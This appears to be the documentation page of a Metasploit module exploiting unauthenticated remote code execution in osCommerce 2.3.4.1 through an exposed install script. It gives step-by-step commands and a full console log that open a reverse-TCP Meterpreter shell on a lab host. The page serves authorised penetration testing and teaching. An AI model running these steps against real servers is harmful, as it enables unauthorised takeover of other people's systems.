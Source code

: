 ## Vulnerable Application

osCommerce version 2.3.4.1 is vulnerable to remote code execution. If the `/install/` directory was not removed, it is possible for an unauthenticated attacker to run the `install_4.php` script, which will create the configuration file for the installation. This allows the attacker to inject PHP code into the configuration file and execute it.

## Verification Steps

  1. Download and install [osCommerce 2.3.4.1](https://www.exploit-db.com/apps/ce2796b352d6e0fb4e9f03866ae98541-oscommerce-2.3.4.zip)
  2. `use exploit/multi/http/oscommerce_installer_unauth_code_exec`
  3. `set RHOST IP`
  4. `set PAYLOAD php/meterpreter/reverse_tcp`
  5. `set LHOST IP`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started

## Scenarios

### osCommerce version 2.3.4.1 on Debian

```
msf > use exploit/multi/http/oscommerce_installer_unauth_code_exec
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > set RHOST 172.16.40.188
RHOST => 172.16.40.188
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > set LHOST 172.16.40.5
LHOST => 172.16.40.5
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (37543 bytes) to 172.16.40.188
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.188:47466) at 2018-04-05 18:14:45 +0100

meterpreter > sysinfo 
Computer    : oscommerce
OS          : Linux oscommerce 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64
Meterpreter : php/linux
meterpreter > 
```
